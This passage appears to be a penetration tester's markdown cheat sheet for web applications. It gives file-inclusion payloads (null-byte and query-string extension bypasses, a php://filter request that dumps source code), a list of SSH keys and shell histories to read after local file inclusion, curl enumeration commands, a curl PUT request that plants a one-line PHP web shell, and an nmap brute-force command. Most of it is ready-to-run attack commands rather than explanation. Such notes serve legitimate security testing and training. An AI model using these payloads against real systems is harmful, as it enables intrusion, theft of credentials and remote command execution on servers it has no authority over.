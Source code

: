 - Bypass file extension

   Null byte injection:
    
    http://$TARGET_IP/page=http://$TARGET_IP/maliciousfile.txt%00
    
   Other:   
    
    http://$TARGET_IP/page=http://$TARGET_IP/maliciousfile.txt?

- Bypass execution

    http://$TARGET_IP/index.php?page=php://filter/convert.base64-encode/resource=index
    base64 -d savefile.php

- PHP
https://cobalt.io/blog/a-pentesters-guide-to-file-inclusion

- If have LFI, check: 

    /home/<user>/.ssh/id_rsa
    /home/<user>/.ssh/authorized_keys
    /home/<user>/.bash_history (and other shell histories)
    /home/<user>/.profile (and other shell profiles)

- ### Inspect with developer tools
- Cookies
- Requests/Responses
- Page source
- inspector
- Debugger

- ### curl

- Get Header
    
     curl -I http://$TARGET_IP 

- Get everything

     curl -i http://$TARGET_IP

- Get everything; follow redirect

     curl -i -L  http://$TARGET_IP

- Check for title and all links

     curl -s -L http://$TARGET_IP | grep "title\|href" | sed -e 's/^[[:space:]]*//'

- Look at page with just text

     curl -s -L http://$TARGET_IP | html2text -width '99' | uniq

- Check if it is possible to upload using put
    
     curl -v -X OPTIONS http:///$TARGET_IP
     curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://$TARGET_IP/test/shell.php

- ### Nmap brute force

  sudo nmap -p 80 --script="brute and http*" $TARGET_IP -oN "$WORKING_DIRECTORY""$TARGET_IP"_nmap_80_brute
		